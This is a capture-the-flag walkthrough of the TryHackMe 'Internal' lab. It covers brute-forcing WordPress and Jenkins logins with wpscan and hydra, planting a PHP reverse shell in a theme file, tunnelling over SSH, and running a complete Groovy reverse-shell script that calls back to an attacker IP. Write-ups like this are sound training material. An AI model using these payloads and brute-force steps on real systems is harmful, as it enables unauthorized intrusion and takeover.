 ```yaml
---
layout: default
title: Internal
description: THM - Internal
---
```


## Enumeration

Nmap Scan:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-23 21:21 EEST
Nmap scan report for 10.10.61.56
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.14 seconds
```

Gobuster:
```
/blog					(Status: 301) [Size: 309]
/wordpress	(Status: 301) [Size: 314]
/javascript		(Status: 301)
```
WPscan:
```
wpscan --url http://10.10.61.56/blog/ --enumerate u

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
This would be a good time to add “internal.thm” to your “/etc/hosts”.

Now, while I look around on the pages for any clues (CTFs am i right?), I'll start wpscan to bruteforce the wordpress login.

While I was looking around, wpscan found something.
```
[!] Valid Combinations Found:
 | Username: admin, Password: [REDACTED]
```
And we logged in!

Now we'll navigate to “Appearance/Theme Editor” and replace the “404.php” file contents with a php shell. I'll use the one from PentestMonkey.

The theme is Twenty Seventeen, so our shell will be located at 
```
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```
Now we got our shell:
```
# nc -lvnp 9002            
Listening on 0.0.0.0 9002
Connection received on 10.10.61.56 39104
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:37:53 up 18 min,  0 users,  load average: 0.00, 0.05, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ 

```

I recommend checking out “Full TTYs” from hacktricks -> [Right Here](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)

We cd into “/home”, and have a look around.
```
www-data@internal:/$ cd /home
cd /home
www-data@internal:/home$ ls
ls
aubreanna
www-data@internal:/home$ cd aubreanna
cd aubreanna
bash: cd: aubreanna: Permission denied
www-data@internal:/home$
```
As you can see, we don't have permission to look inside “aubreanna”

We'll also check “/opt” as it's good practice.
```
www-data@internal:/opt$ ls
ls
containerd  wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:[REDACTED]
www-data@internal:/opt$
```
Cool, now we have aubreanna's login info. The text file indicates wordpress access, but we already have that. So let's try to ssh into the machine using those credentials.

```
aubreanna@internal:~$ whoami
aubreanna
```
We'll read “user.txt”, submit it, and then move on.
```
aubreanna@internal:/home$ cd aubreanna/
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt
[REDACTED]
aubreanna@internal:~$ 

```
We've also found a "jenkins.txt" file, let's see what's inside.
```
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

Ok, we have an internal service running. Now we need to access it.

A quick look on superuser.com, talks about forwarding / ssh tunneling. As we need to access an internal service from the outside.

And so, we create an ssh tunnel:
```
ssh -N -L 5555:172.17.0.2:8080 aubreanna@10.10.61.56
```
And if we navigate to localhost:5555, we got access to a jenkins webpage.

Default credentials, or at least those that I knew of, were not working, so I'll capture the login request in burp, and then use hydra to try and bruteforce it.
```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 5555 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```
```
[5555][http-post-form] host: 127.0.0.1   login: [REDACTED]   password: [REDACTED]
```
Cool! Now we'll login, and abuse the jenkins script console to get a reverse shell again.

We'll run this script in the “http://localhost:5000/script”:
```
String host="10.18.116.220";
int port=5554;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
```
nc -lvnp 5554
Listening on 0.0.0.0 5554
Connection received on 10.10.61.56 56022
python -c 'import pty; pty.spawn("/bin/bash")'
jenkins@jenkins:/$ 
```
And we have another shell!

Snooping around a bit, we find this:
```
jenkins@jenkins:/$ cd /home
cd /home
jenkins@jenkins:/home$ ls
ls
jenkins@jenkins:/home$ cd /opt
cd /opt
jenkins@jenkins:/opt$ ls
ls
note.txt
jenkins@jenkins:/opt$ cat note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:[REDACTED]
jenkins@jenkins:/opt$ 
```
Looks like we have the root password. Let's try to ssh using these credentials.

```
Last login: Mon Aug  3 19:59:17 2020 from 10.6.2.56
root@internal:~# id
uid=0(root) gid=0(root) groups=0(root)
root@internal:~#
```

All there's left to do, is to read the “/root/root.txt” file, and you're done!

Good hunting o7

[Try it out yourself!](https://tryhackme.com/room/internal)

[back](./)
